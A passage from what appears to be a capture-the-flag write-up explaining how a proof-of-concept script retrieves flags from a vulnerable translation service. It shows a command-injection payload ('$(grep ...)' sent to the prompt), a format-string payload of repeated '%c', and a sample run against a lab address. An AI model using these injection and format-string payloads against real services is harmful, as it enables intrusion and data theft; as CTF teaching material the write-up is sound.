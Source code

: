 Of course, the part of the file we get must be reversed to get it right. This
way of getting the file is interesting in a CTF because it's very easy to
modify a string in a binary like an AES key. But its a bit more
time-consuming to modify the code to prevent retrieving the file using this
vulnerability.

### Automation

The script [poc.py][poc] uses the previous principle to retrieve a *flag*.
It first greps the file `rw/info/Fahrzeugnummern.csv` to retrieve all frame
numbers which may match the corresponding part in the *flag_id*.
```python
conn.sendline("$(grep %s info/Fahrzeugnummern.csv)" % frame_search)
conn.expect(TRANSLATE_PROMPT)
flags = re.findall(
        r'^(?:Das Wort )?([0-9A-Z]+);([a-zA-Z0-9+/]+)$',
        conn.before, re.M
        )
```

Then it uses the format string vulnerability to retrieve the list of
translation and searches for possible translation:
```python
conn.sendline("%c" * MAX_ARG_LEN)
conn.expect(TRANSLATE_PROMPT)
passwords = re.findall(
        r'^([a-zA-Z0-9]+);[a-z]+%s' % (word_search[::-1],),
            conn.before, re.M
        )
```

Finally, we locally try to decrypt each cipher with each password.

```bash
$ ./poc.py 192.168.56.101 20104 3VWZZZufdc
FLGwwZzk0f5D0KWz
```


[poc]: poc.py
